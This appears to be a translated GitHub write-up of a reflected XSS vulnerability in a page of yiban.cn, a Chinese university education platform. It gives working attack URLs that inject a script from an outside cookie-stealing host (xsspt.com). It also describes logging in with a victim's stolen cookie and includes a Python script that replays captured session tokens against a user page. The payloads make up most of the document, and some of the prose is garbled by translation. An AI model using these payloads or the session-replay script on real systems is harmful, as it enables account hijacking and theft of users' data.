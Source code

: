 ## There are reflective XSS vulnerabilities in the educational platform of Chinese colleges and universities, and the aggressive URL URL can be used to attract and steal the user cookie to realize the landing and other operations.Specific vulnerabilities are analyzed as follows  
First, the parameter k is extracted from an article, which mistaken the K to the front end for unfiltered use.
> http://www.yiban.cn//project/haiyang_2015yxj/articlelist.php?k=%E3%80%90%E5%90%83%E3%80%919428
### At this time we tried to splice the function of the front-end JS
At this time we tried to splice the function of the front-end JS  
http://www.yiban.cn//project/haiyang_2015yxj/articlelist.php?k=%E3%80%90%E5%90%83%E3%80%919428';}
### Then we continue to splice the JS code. We see that it can be executed, that is, there is no filtering for k.
![](https://1aker.cn/picture/QQ%E6%88%AA%E5%9B%BE20180529225214.png)
http://www.yiban.cn//project/haiyang_2015yxj/articlelist.php?k=%E3%80%90%E5%90%83%E3%80%919428';}</scRIPt><script>alert(1)</script>
## Ok,now we can splice up our malicious JS code (for testing purposes only), and then entice the user to click, so we can steal the cookies of the user.
![](https://1aker.cn/picture/QQ%E6%88%AA%E5%9B%BE20180530070412.png)
http://www.yiban.cn//project/haiyang_2015yxj/articlelist.php?k=%E3%80%90%E5%90%83%E3%80%919428';}</scRIPt><script src=http://xsspt.com/8cwW2O?1527634980></script>
### Then we used the stolen cookie to login, obviously we succeeded.
![](https://1aker.cn/picture/QQ%E6%88%AA%E5%9B%BE20180530070513.png)
We look at the login information through the script
![](https://1aker.cn/picture/QQ%E6%88%AA%E5%9B%BE20180530071420.png)
### Vulnerability utilization test scripts are as follows
```
import requests

headers={'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36'}
cookie = {'YB_SSID':'10c30a35561316b0032bb1c78cbdd656', 'UM_distinctid':"163ae2270ea1240-\059a6c2a729ae-5b452a1d-e1000-163ae2270ee1a4", 'SL_GWPT_Show_Hide_tmp':'1', 'yiban_user_token':'37a9f9d92ef0efa4b6258ac8d5d05b38', 'CNZZDATA1253488264':'792648766-1527631606-null%7C1527631606', '_cnzz_CV1253488264':'%E5%AD%A6%E6%A0%A1%E9%A1%B5%E9%9D%A2%7C%3A%2FIndex%2FIndex%2Findex%7C1527635160910%26%E5%AD%A6%E6%A0%A1%E5%90%8D%E7%A7%B0%7C%E5%85%B6%E4%BB%96%7C1527635160910', 'SL_wptGlobTipTmp':'1'}
res = requests.get(url='http://www.yiban.cn/user/index/index/user_id/8777259',cookies=cookie,headers=headers)
print(res.text)


```
